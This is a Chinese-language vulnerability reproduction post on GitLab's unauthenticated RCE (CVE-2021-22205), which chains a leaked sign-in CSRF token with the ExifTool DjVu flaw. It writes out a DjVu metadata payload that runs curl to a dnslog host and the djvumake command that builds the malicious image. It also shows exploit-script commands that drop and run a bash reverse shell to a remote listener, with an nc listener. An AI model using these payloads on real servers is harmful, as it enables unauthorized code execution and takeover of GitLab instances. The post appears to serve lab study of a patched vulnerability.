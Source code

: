 ```yaml
---
title: GitLab 未授权RCE(CVE-2021-22205)  --花无名   
layout: mypost
categories: [漏洞复现]
---
```

# 1.漏洞介绍

这个漏洞形成未授权RCE主要要两个原因：1.gitlab的用户登录界面的CSRF-token泄露，攻击者可以直接获取使用至系统文件上传接口，导致原本需要登录后才能实现RCE的漏洞风险大大提高了

2.第二个原因是gitlab使用的exiftool，接收用户上传图片时，处理不当，将用户上传的无法解析的文件进行执行，从而导致了可RCE（CVE-2021-22204），[详情见vakzz大佬原文](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

# 2.未授权漏洞复现：

`影响范围：`

`11.9 <=  GitLab（CE/EE）< 13.8.8
13.9 <=  GitLab（CE/EE）< 13.9.6
13.10 <= GitLab（CE/EE）< 13.10.3`

过程：

直接访问接口 http://xxxx.com/users/sign_in

在返回包中找到csr![微信截图_20211112140906](微信截图_20211112140906.png)f-token，将值记录



构造数据包，上传文件

![tihuan](tihuan.png)

即可未授权上传文件至目标服务器

# 文件上传RCE

根据上述漏洞原理可知，我们需要构造一个非常规的图片文件，从而使系统解析错误并执行文件内容

此处需要上传`DjVu`格式图片（即Exp）

![attfile](attfile.png)

DjVu格式图片需要下载安装工具DjVuLibre，地址：http://djvu.sourceforge.net/

木马文本内容

`(metadata (Copyright "\ " . qx{curl xxxx.dnslog.cn} . \ " b ") )`

使用命令生成rce.jpg

`djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg`

之后上传至系统服务器即可

![image-20211112143405506](image-20211112143405506.png)

至此即可查看dnslog是否有成功访问记录了

# 脚本复现及漏洞利用

这里使用脚本为：https://github.com/Al1ex/CVE-2021-22205 详细工具介绍可直接至github查看。

NC反弹shell

构造语句，将命令写入到服务器，执行写入的文件，即可成功反弹shell

` python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "echo 'bash -i >& /dev/tcp/xx.xx.x.x/6666 0>&1' > /tmp/1.sh"`

![fan1](fan1.png)

可看到文件已成功写到靶机上

![ubantu](ubantu.png)

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "chmod 7777 /tmp/1.sh"`

![fan2](fan2.png)

`nc -lvp 6666`

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "/bin/bahs /tmp/1.sh"`

![image-20211112144237872](C:\Users\27\AppData\Roaming\Typora\typora-user-images\image-20211112144237872.png)

![shell](shell.png)



参考：https://github.com/Al1ex/CVE-2021-22205     https://www.freebuf.com/articles/web/303375.html